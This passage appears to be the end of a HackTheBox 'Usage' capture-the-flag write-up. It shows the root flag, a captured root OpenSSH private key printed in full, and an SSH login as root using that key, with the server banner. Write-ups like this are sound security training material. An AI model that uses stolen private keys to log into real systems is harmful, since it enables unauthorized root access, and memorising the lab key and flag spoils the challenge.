 ## root.txt

```c
623659de2f8e61b8535d04f58c526043
```

## Post Exploitation

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Usage/files]
└─$ cat root_id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
-----END OPENSSH PRIVATE KEY-----
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Usage/files]
└─$ ssh -i root_id_rsa root@usage.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sat Apr 13 08:26:55 PM UTC 2024

  System load:           0.02734375
  Usage of /:            67.3% of 6.53GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             233
  Users logged in:       1
  IPv4 address for eth0: 10.129.44.202
  IPv6 address for eth0: dead:beef::250:56ff:feb0:6199

  => There is 1 zombie process.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Apr  8 13:17:47 2024 from 10.10.14.40
root@usage:~#
```
